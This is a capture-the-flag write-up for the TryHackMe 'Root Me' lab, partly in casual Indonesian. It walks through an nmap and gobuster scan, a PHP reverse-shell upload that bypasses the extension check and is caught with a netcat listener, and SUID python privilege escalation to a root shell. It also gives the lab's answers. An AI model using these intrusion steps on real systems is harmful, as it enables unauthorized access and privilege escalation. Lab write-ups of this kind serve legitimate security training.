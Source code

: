 # THM_RootMe
Write Up TryHackMe Root Me url: https://tryhackme.com/room/rrootme

```
Note: in my case my machine ip is 10.10.154.156
```
# Task 2: Reconnaissance

## Step One: Scan The Machine IP
```
sudo nmap -sS -sC -sV MachineIP -v

output:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-23 02:05 WIB
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 02:05
Scanning 10.10.154.156 [4 ports]
Completed Ping Scan at 02:05, 0.24s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 02:05
Completed Parallel DNS resolution of 1 host. at 02:05, 0.11s elapsed
Initiating SYN Stealth Scan at 02:05
Scanning 10.10.154.156 (10.10.154.156) [1000 ports]
Discovered open port 80/tcp on 10.10.154.156
Discovered open port 22/tcp on 10.10.154.156
Completed SYN Stealth Scan at 02:05, 3.10s elapsed (1000 total ports)
Initiating Service scan at 02:05
Scanning 2 services on 10.10.154.156 (10.10.154.156)
Completed Service scan at 02:06, 7.10s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.154.156.
Initiating NSE at 02:06
Completed NSE at 02:06, 1.05s elapsed
Initiating NSE at 02:06
Completed NSE at 02:06, 0.85s elapsed
Nmap scan report for 10.10.154.156 (10.10.154.156)
Host is up (0.30s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.00 seconds
           Raw packets sent: 1174 (51.632KB) | Rcvd: 1087 (43.488KB)

```

### question 1: how many port open
```
ans: 2
```
### question 2: What version of Apache is running?
```
ans: 2.4.29
```
### question 3: What service is running on port 22?
```
ans: SSH
```


## Step 2: Find directories on the web server using the GoBuster tool.
```
gobuster dir -u http://MachineIP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

output:
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.154.156/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/11/23 02:15:00 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 316] [--> http://10.10.154.156/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.154.156/css/]    
/js                   (Status: 301) [Size: 311] [--> http://10.10.154.156/js/]     
/panel                (Status: 301) [Size: 314] [--> http://10.10.154.156/panel/]  
Progress: 6801 / 220561 (3.08%)                                                   
[!] Keyboard interrupt detected, terminating.
                                                                                   
===============================================================
2021/11/23 02:17:50 Finished
===============================================================
```
### Question 4: What is the hidden directory?
```
ans: /panel/
```

# Task 2: Getting a shell
## Step one: Go To The /panel/ directory
```
Note: Uploads your reverse shell  And use bypass extension.
```
If you don't have revers shell go https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
Then in your terminal type 
```bash
nc -lvnp <PORT>
```
And go to /uploads directory and opened your reverse web shell
if its work
```
connect to [10.9.3.216] from (UNKNOWN) [10.10.154.156] 58032
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:32:16 up 29 min,  0 users,  load average: 0.00, 0.00, 0.22
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
### Question 1: user.txt
use command find / -type f -name user.txt 2>/dev/null
user.txt its found
use command cat (PATH)/user.txt to see the flag
```
ans: THM{y0u_g0t_a_sh3ll}
```

# Task 3: Privilege escalation
ah dahlah, di sini BINDO AE:v

## Pertanyaan 1: Search for files with SUID permission, which file is weird?
nah untuk cari SUID permission anu command find / -perm -4000 2>/dev/null
nah di situ ada yang anuh. python nya masuk ke permission 4000 nya
jadi kita isi
```
Jawaban: /usr/bin/python
```
## Pertanyaan ke 2: root.txt
nah ini nih puncak nya
kita kan bukan user root(kalo ga percaya coba anu command whoami), sedangkan kita mencari root.txt. udah pasti file nya di dir /root :v 
trus gimana banh biar bisa ke jadi user root. Nah itu namany privilege Escalation nah di kali ini ini nyanya SUID vuln
di situ kan yang aneh tadi pythonya. kok aneh? karena pythonya bisa menjalankan user root alias sudo. Nah trus gimana cara nya biar kita jadi user root?
kita bergi ke google ketik GTFobinstrus buka webnya ketik python
nah di situ ada deh. cari yang SUID trus di copy. nih buat yang males
```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
lalu kita ketik whoami
selamat anda jadi HEKERRR SEJATI :v. eits root.txt nya belum
ya tinggal nyari dong. Cara nya sama kayak nyai user.txt
find / -type f -name root.txt 2>/dev/null
nah file flagnya root.txt bener kan ada di dir /root :v 
klo udah tinggal anu deh
cat /root/root.txt
```
Jawaban: PIKIR SENDIRI:V
```


Makasih kawand udah mau baca. klo boleh follow dong:D
Sankyuu
Copyright By Babwa Wibu
